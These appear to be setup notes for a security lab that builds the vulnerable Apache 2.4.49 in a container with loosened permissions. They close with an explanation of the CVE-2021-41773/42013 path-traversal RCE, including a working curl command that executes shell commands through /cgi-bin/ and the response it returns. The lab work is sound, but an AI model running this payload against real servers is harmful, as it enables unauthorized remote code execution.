 # Progress So Far

## Apache Files for Download

1. First Link: https://httpd.apache.org/security/vulnerabilities_13.html
2. Critial Search: https://www.google.com/search?client=firefox-b-1-d&q=Apache%2F1.3.31+vulnerabiliteis
3. Where to find old versions: https://archive.apache.org/dist/httpd/binaries/linux/

## Loosened Permissions

1. Had to loosen the following:
    - capabailities
    - mounts
    - resources
    - syscalls

## Key Testing Note

1. Similar to JuiceShop have to make the mountdir the uid/gid of the container, otherwise we can't write.

For instance notice the 10000 here:

```sh
drwxrwxr-x  8 sikeboy sikeboy 4096 Jun  5 22:48 dvwa_dir
drwxrwxr-x 32   10000   10000 4096 Jun  7 21:08 juice-shop
```

## How to Install dependencies

```sh
sudo apt install nmap
# Add the metasploitable install below
```

## How to Install Apache

Prior to this you have to make these in the host:

```sh
 sudo chown -R 10000:10000 /usr/local/apache2/
```

Download and Extract APR and APR-Util

    Download APR and APR-Util:
    Download the APR and APR-Util source packages.

```sh

wget https://archive.apache.org/dist/apr/apr-1.7.0.tar.gz
wget https://archive.apache.org/dist/apr/apr-util-1.6.1.tar.gz
```

Extract APR and APR-Util:
Extract the downloaded tarballs and place them in the srclib directory of the Apache source tree.

```sh

tar -xvzf apr-1.7.0.tar.gz
tar -xvzf apr-util-1.6.1.tar.gz
mv apr-1.7.0 httpd-2.4.49/srclib/apr
mv apr-util-1.6.1 httpd-2.4.49/srclib/apr-util
```

```sh
bash ./configure --prefix=/usr/local/apache2 --with-pcre=/usr/local/pcre/bin/pcre-config --with-included-apr
export PATH=$PATH:/usr/bin
make
make install
```

## After must change the Listen and Server

```sh
nano /usr/local/apache2/conf/httpd.conf
```

Then in the file do:

```sh
Listen 172.18.0.2:3000
ServerName 172.18.0.2:3000
```

After saving and exiting the file execute these:

```sh
/usr/local/apache2/bin/apachectl -k restart
/usr/local/apache2/bin/apachectl -k start
```


## Simple fix to add gcc libraries

```sh
export PATH=$PATH:/usr/bin
```

## How to Install pcre (Must Be Done on LocalHost)

```sh
sudo apt-get install -y libpcre3 libpcre3-dev
```

## How to Install apr and apr-util (Apache Runtime)

Download both:

- apr-util-1.6.3.tar.gz
- apr-1.7.4.tar.gz

## Helpful Troubleshooting Sites

1. https://www.linuxfromscratch.org/blfs/view/svn/general/apr.html
2. https://docs.oracle.com/cd/B13789_01/server.101/q20201/install.html
3. https://www.linuxfromscratch.org/blfs/view/svn/general/apr-util.html
4. https://stackoverflow.com/questions/13967114/configure-error-apr-not-found-please-read-the-documentation
5. https://apr.apache.org/download.cgi 
6. https://archive.apache.org/dist/httpd/ 
7. https://docs.oracle.com/cd/B13789_01/server.101/q20201/install.html
8. https://forums.centos.org/viewtopic.php?t=56062 

## Using the Exploits 

## RCE exploit both for Apache 2.4.49 (CVE-2021-41773) and 2.4.50 (CVE-2021-42013):

IMHO only "special" setups will be vulnerable to this RCE.\
Same happens for the "arbitrary file read" exploits you have seen.

Both CVEs are indeed almost the same path-traversal vulnerability (2nd one is the uncomplete fix for 1st one).\
Path traversal only work from a mapped URI (e.g. via "Alias" or "ScriptAlias" Apache directives). DocumentRoot only is not sufficient.

"/cgi-bin/" is mapped by default (ScriptAlias) so that's why it's being used before the path traversal string.\
Besides, ScriptAlias marks as Exec (for Apache) all the contents for the given directory (regardless the file extensions).

### Requirements:
1/ mod_cgi enabled (not default but easy)\
2/ target binary should be +x (default for /bin/sh)\
3/ apache permissions granted for /bin or / (not default and difficult/unrealistic)\

### Check if server is vulnerable:
`curl 'http://IPADDR/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh' --data 'echo Content-Type: text/plain; echo; id'`

### Response from a vulnerable server:
`uid=1(daemon) gid=1(daemon) groups=1(daemon)`